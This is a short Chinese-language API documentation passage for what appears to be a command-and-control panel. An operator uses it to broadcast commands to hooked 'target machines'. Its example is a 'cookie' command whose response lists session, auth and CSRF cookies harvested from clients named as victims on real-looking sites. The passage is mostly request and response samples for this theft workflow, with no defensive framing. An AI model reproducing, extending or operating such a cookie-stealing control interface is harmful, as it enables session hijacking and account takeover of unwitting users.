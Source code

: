 
## 💻 命令执行 API

### 1. 向所有靶机广播命令
```http
POST /api/commands
Content-Type: application/json
```

**功能:** 向所有连接的靶机发送命令

**请求体:**
```json
{
  "command": "cookie",
  "args": {
    "additional_param": "value"
  }
}
```

**请求参数:**
- `command` (必需, string): 要执行的命令类型
- `args` (可选, object): 命令的附加参数

**响应示例:**
```json
{
  "status": "success", 
  "message": "命令执行完成，收到 3 个结果",
  "data": {
    "command": "cookie",
    "target_id": "",
    "args": {
      "additional_param": "value"
    },
    "results": [
      {
        "client_id": "victim_abc123",
        "command": "cookie",
        "result": "session_id=abc123; auth=xyz789",
        "url": "https://target-site.com",
        "timestamp": 1640995200
      },
      {
        "client_id": "victim_def456", 
        "command": "cookie",
        "result": "user_token=token123; csrf=csrf456",
        "url": "https://another-site.com",
        "timestamp": 1640995201
      }
    ],
    "count": 3
  },
  "timestamp": "2025-01-20T10:35:00Z"
}
```
